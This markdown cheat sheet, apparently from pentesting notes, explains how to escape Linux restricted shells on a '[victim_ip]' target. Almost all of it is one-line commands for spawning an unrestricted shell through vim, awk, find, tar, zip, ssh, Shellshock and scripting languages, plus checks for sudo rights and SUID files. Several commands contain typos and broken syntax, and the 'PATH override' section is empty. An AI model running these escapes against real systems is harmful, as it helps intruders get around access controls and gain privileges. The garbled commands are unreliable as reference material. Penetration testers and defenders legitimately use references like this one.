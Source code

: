 ### Test 
```
ssh user_name@[victim_ip] bash
```

### Enumarate 
- command 
  - cd
  - ls
  - echo

- operators 
  - *>*
  - *<*
  - *>>*
  - *|*

- programming languages
  - perl
  - ruby
  - python
  - php
  
- commands as root
  - sudo -l

- check files with suid

- check env variable
  - run env
  - printenv

- check shell
  - echo $SHELL
  
### Common Techniques
- */* run /bin/sh or /bin/bash
- *cp* copy /bin/sh or /bin/bash into your directory
- *ftp* run ftp>!/bin/bash or ftp>!/bin/sh
- *gdb* run gdb>!/bin/bash or gdb>!/bin/sh
- *vim* run vim>!/bin/bash or vim>!/bin/sh
- *rvim* run rvim>:python import os;os.system("bin/bash")
- *scp* run scp>scp -S /path/your/script x y:
- *awk* run awk>awk 'BEGIN {system("/bin/sh or /bin/bash")}
- *find* run find>find / -name test -exec /bin/sh or /bin/bash \;

### Programming Languages Techniques
- *except* run except> except spawn sh thne sh
- *python* run python -c 'import os;os.system("/bin/sh")'
- *php* run php>php -a then exec("sh -i");
- *perl* run perl>perl -e 'exec"/bin/sh";'
- *lua* run lua>os.execute('/bin/sh')
- *ruby* run ruby>exec "/bin/sh"

### Advance Techniques
- *ssh* run ssh>ssh username@IP - t "/bin/sh" or "/bin/bash"
- *ssh2* run ssh2>ssh username@IP -t "bash --noprofile"
- *ssh3* run ssh3>ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
- *ssh4* run ssh4>ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
- *tar* run tar>tar cf /dev/null testfile --checkpoint=1 --checkpoint- action=exec=/bin/bash
- *zip* run zip>zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
- *pico* run pico>pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
- *git* run git>git help status > you can run it then !/bin/bash

### PATH override


### References
- https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
